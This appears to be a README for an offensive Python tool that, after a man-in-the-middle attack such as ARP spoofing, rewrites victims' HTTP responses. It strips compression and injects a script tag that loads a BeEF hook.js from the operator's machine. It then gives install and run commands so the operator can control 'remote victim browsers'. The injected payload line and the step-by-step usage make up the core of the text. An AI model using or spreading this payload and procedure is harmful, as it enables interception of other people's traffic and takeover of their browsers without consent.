 # Web hooking
After establishing MITM connection (e.g. using ARP spoofing), looking at all the HTTP requests, the program removes HTTP <code>Accept-Encoding</code> header so the response HTML load will not be encrypted. The program inserts the javascript code, <code><script src="http://10.0.2.15:3000/hook.js"></script></code>, in the HTML load of the HTTP response as a script. The addition of the lines of code are performed by replacing <code></body></code>. The specified IP address is the one of the machine that runs the program or some remote machine whom you have control. Then the program modifies the <code>Content-Length</code> value w.r.t. performed HTML changes. After this phase, you can use BeEf, to insert code or manage actions on remote victim browser. BeEF is a framework that works using javascript code so it can work on every possible browser that supports javascript language (all browsers nowadays).<br>
To use this Interceptor, you need to install the following modules for python3, through this command:
<pre lang="bash"><code>apt install beef-xss build-essential python3 libnetfilter-queue-dev</code></pre>
<pre lang="bash"><code>pip3 install termcolor argparse</code></pre>
To run the program, you need to type for example this command on bash:
<pre lang="bash"><code>python3 hook_method.py</code></pre>
To check which parameters you can insert, you can type the command:
<pre lang="bash"><code>python3 hook_method.py --help </code></pre>
The program must run with superuser privileges and can work only on HTTP web pages.
For management of BeEF credentials, you can manage the file:
<pre lang="bash"><code>/usr/share/beef-xss/config.yaml</code></pre>
